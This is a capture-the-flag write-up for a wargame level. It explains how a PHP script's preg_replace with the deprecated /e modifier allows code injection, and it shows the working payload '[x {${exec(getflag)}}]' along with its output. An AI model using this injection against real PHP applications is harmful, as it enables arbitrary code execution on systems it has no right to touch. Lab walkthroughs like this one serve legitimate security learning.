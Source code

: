 <h1 align="center"> level06 </h1>

```shell
ls -la
```

We have 2 files:
```
level06
level06.php
```

```shell
strings level06
```

We see this line:
```
/home/user/level06/level06.php
```
So the binary call .php file

Now the .php:
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

with comments:
```php
#!/usr/bin/php
<?php
function y($m) 
{
  $m = preg_replace("/\./", " x ", $m); //replace "." with " x ""
  $m = preg_replace("/@/", " y", $m); //replace "@" with " y"
  return $m; 
}
function x($y, $z) 
{ 
  $a = file_get_contents($y); 
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); //extract content from shape  [x ...] and pass i to funct y
  $a = preg_replace("/\[/", "(", $a); //replace "[" with "("
  $a = preg_replace("/\]/", ")", $a); //replace "]" with ")"
  return $a; 
}
$r = x($argv[1], $argv[2]); 
print $r;
?>
```

The security breach is the ```/e``` who is deprecated. It allows evaluation of the replacement string as PHP code.

First I try
```shell
echo '[x ${exec(getflag)}]' > /tmp/level06
```
But it failed:
```
./level06 /tmp/level06
PHP Parse error:  syntax error, unexpected '(' in /home/user/level06/level06.php(4) : regexp code on line 1
```
Because this syntax in also deprecated, we need to add ```{}``` like this:
```
echo '[x {${exec(getflag)}}]' > /tmp/level06
```
And then:
```
./level06 /tmp/level06
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token
```

We have the getflag result, who allows us to pass to the next level, it work !
